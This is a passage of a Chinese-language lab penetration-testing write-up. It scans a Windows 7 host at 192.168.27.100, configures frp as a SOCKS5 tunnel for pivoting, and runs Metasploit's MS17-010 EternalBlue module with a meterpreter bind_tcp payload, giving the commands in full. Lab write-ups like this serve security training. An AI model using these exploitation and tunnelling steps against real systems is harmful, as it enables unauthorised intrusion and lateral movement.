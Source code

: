

```bash
(icmp) Target 192.168.27.100  is alive
192.168.27.100:445 open
[+] MS17-010 192.168.27.100	(Windows 7 Ultimate 7601 Service Pack 1)
```

win7开了445端口，利用MS17-010

### 上传frpc

#### frpc.ini

```bash
[common]
server_addr = 192.168.28.101
server_post = 7000

[socks5_2]
plugin = socks5
remote_post = 10802
```

#### 运行frpc

```bash
chmod +x frpc
frpc -c frpc.ini > frpc.txt
```

## 6.MSF-永恒之蓝ms17-010

> 192.168.27.100

### ms17-010

```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp 
set rhost 192.168.27.100
run
```

![image-20241125164552188](https://image.201068.xyz/assets/writeup/image-20241125164552188.png)

### 信息收集

```bash
ipconfig
```

> 192.168.27.100
